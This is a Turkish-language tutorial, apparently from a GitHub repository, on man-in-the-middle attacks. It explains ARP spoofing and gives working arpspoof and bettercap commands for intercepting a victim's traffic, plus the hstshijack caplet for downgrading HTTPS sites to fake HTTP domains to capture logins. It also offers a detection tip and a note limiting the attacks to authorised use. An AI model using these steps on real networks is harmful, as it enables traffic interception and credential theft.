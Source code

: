 ## 🕵️‍♂️ Man in the Middle Saldırısı Nedir?
- Normalde sunucu ve client arasındaki iletişim şu şekilde olur:
	- 🧑‍💻 Client bir web sitesine istek yapar, bu isteği router'a iletir.
	- 📡 Router isteği ilgili web sitesine iletir, yanıtı alır.
	- 📬 Yanıtı alan router bu yanıtı client'e iletir.
---
- 🧑‍💻 Bu saldırı ile hacker şunu amaçlar:
	- Client bir web sitesine istek yapar, bu isteği router'a iletir.
	- 🕶️ Hacker kendini router gibi göstererek isteği alır ve router'a iletir.
	- Router isteği ilgili web sitesine iletir ve yanıtı alır.
	- 📬 Yanıtı alan router client'e iletir.
	- 🕶️ Hacker kendini client gibi göstererek yanıtı alır ve client'e iletir.
---
- Yani 🧑‍💻 kullanıcıya karşı router, 📡 router'a karşı kullanıcı gibi davranır.  
  Router ve kullanıcının tam ortasına girer ve böylece tüm web trafiği hacker'ın elinden geçer.  
  Böylece bu bilgilerin içeriğini görüntüleyebilir. 🔍
---
- Bu kandırma işlemi **🧬 ARP spoofing** ile yapılır.
	- 🧾 **ARP**, IP ve MAC adreslerinin eşleşmesini sağlayan bir protokoldür.  
	  Router tüm cihazlara **ARP request** göndererek "Bu IP kimin?" diye sorar.  
	  IP'ye sahip olan cihaz, **ARP reply** ile MAC adresini router'a gönderir.
	- ⚠️ **ARP request** gerekmeksizin **ARP reply** gönderilebilmesi sayesinde router kandırılabilir. (gerekli bilgiler netdiscover veya nmap ile elde edilebilir) 
	  Bu işleme **🎭 ARP spoofing** denir.

---

## 🎭 Arpspoof Aracı ile ARP Spoofing Yapmak

- 🛠️ Öncelikle **IP Forward** özelliği açılmalıdır:
  ```bash
  echo 1 > /proc/sys/net/ipv4/ip_forward
  ```
  📌 Bu komut ile sistem, gelen veriyi bir başka cihaza yönlendirebilir hâle gelir (değeri `1` olarak ayarlanır).

---

- 🔁 **Router'ı kandırmak için:**
  ```bash
  arpspoof -i <interface> -t <target router ip> <target client ip>
  ```

- 🔁 **Client'ı kandırmak için:**
  ```bash
  arpspoof -i <interface> -t <target client ip> <target router ip>
  ```

- 🧪 Bu iki komut **iki ayrı terminal** üzerinden **eşzamanlı** olarak çalıştırılmalıdır.

---

- 🧾 Kontrol etmek için hedef Windows bilgisayarda şu komut çalıştırılabilir:
  ```bash
  arp -a
  ```
- 📋 **ARP etkileşimi yapılan cihazların IP ve MAC adresleri** listelenir.

- ⚠️ Eğer cihaz ARP spoofing saldırısı altındaysa, **iki farklı IP adresinde aynı MAC adresi** görülür.

---

## 🧠 Bettercap Aracı ile ARP Spoofing Yapmak

- 📌 **Bettercap**, ağ analizinden saldırı simülasyonlarına kadar birçok işlemi yapabilen güçlü bir araçtır.

- **Başlatmak için:**
  ```bash
  bettercap -iface <interface>
  ```

---

### 🔎 Genel Kullanım Bilgisi

- Mevcut modülleri ve komutları listelemek için:
  ```bash
  help
  ```

- Belirli bir modül hakkında detaylı bilgi almak için:
  ```bash
  help <modül adı>
  ```

---

### 🌐 Ağdaki Cihazları Keşfetme

1. **Ağda aktif cihazları keşfetmek için:**
   ```bash
   net.probe on
   ```

2. **Tüm tespit edilen cihazları tablo halinde listelemek için:**
   ```bash
   net.show
   ```

---

### 🎭 ARP Spoofing Yapılandırması

- **ARP Spoofing modülünü yapılandırmak için:**
  ```bash
  set arp.spoof.fullduplex true
  set arp.spoof.internal true
  set arp.spoof.target <hedef cihaz ip>
  ```

  > 💡 `help arpspoof` komutu ile bu modül hakkında daha fazla bilgi alınabilir.

- **Saldırıyı başlatmak için:**
  ```bash
  arp.spoof on
  ```

- **Ağ trafiğini dinlemek için:**
  ```bash
  net.sniff on
  ```

---

📝 **Not:** Bettercap’in modüler yapısı sayesinde sadece ARP Spoofing değil, DNS Spoofing, HTTPS bypass ve çok daha fazlası gerçekleştirilebilir. Ancak bu işlemler yalnızca izinli ortamlarda ve etik amaçlarla yapılmalıdır ⚠️.

---
## 🔐 HTTPS ve Caplet’ler

- ⚠️ **ARP Spoofing** ile ağ trafiği dinlenirken, kullanıcı bir **HTTP** sitesine kullanıcı adı, şifre gibi bilgiler gönderirse bu veriler **açık biçimde** görüntülenebilir.

- Ancak **HTTPS** ile şifrelenen sitelerde durum farklıdır; bu veriler doğrudan okunamaz.

---

### 🎭 HSTS Hijacking (Caplet ile)

- **Caplet**'ler aracılığıyla, HTTPS ile korunan sitelere erişim engellenmeye çalışılır.  
  Amaç, kullanıcı HTTPS yerine sahte bir `.corn` uzantılı (örnek: `facebook.corn`) **HTTP** siteye yönlendirilsin.

- Bu işlem için:
  - `/usr/share/bettercap/caplets/hstshijack.cap` dosyasının içeriği düzenlenerek, hedef alınan web siteleri eklenebilir.
  - İstenirse internette bulunan başka caplet dosyaları indirilerek `/usr/share/bettercap/caplets` dizinine yerleştirilebilir.

---

### 🚀 Bettercap Üzerinde Kullanım

- ARP spoofing işlemi sırasında aşağıdaki komutla **hstshijack** caplet'i çalıştırılır:
  ```bash
  hstshijack/hstshijack
  ```

---

### ⚠️ Not

- Bu saldırının **başarılı ve inandırıcı şekilde çalışması genellikle zordur**.
  - Günümüzde çoğu tarayıcı HSTS (HTTP Strict Transport Security) desteğine sahip olduğu için HTTPS dışı bağlantıları otomatik olarak engeller.
